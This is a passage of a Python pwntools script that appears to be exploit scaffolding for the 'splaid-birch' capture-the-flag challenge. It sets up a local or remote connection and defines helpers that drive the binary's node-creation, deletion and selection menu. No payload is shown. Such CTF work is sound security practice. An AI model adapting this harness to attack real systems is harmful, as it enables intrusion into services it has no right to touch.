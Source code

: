 ```python
    elf = ELF(PROG_NAME)
    if LIBC_NAME != '':
        libc = ELF(LIBC_NAME)

    if LOCAL:
        env = {"LD_LIBRARY_PATH": os.getcwd()}
        if LIBC_NAME and PRELOAD:
            env["LD_PRELOAD"] = LIBC_NAME
            log.info("LD_PRELOAD = %s" % env)

        cmd = []
        cmd.append(PROG_NAME)

        s = process(cmd, env=env)
        if WAIT:
            pause()
    else:
        s = remote(HOST, PORT)
    return s


# ==================================================================
# ==================================================================
# ==================================================================

context.clear(log_level='info', arch="amd64", kernel='amd64', os='linux')

LIBC_NAME = ""
PROG_NAME = "./splaid-birch-patched"
HOST = "splaid-birch.pwni.ng"
PORT = 17579

j = 0


def create_node(s, arg1=None, arg2=None):
    global j

    if arg1 == None:
        arg1 = j
        j += 1
    if arg2 == None:
        arg2 = 0

    log.debug("create_node(%s, %s)" % (hex(arg1), hex(arg2)))
    s.sendline("5")
    s.sendline(str(arg1))
    s.sendline(str(arg2))
    return arg1


def del_node(s, arg1):
    log.debug("del_node(%s)" % (hex(arg1),))
    s.sendline("1")
    s.sendline(str(arg1))


def select_node(s, offset):
    log.debug("select_node(%s)" % (hex(offset),))
    s.sendline("4")
    s.sendline(str(offset))
    return s.recvline()

```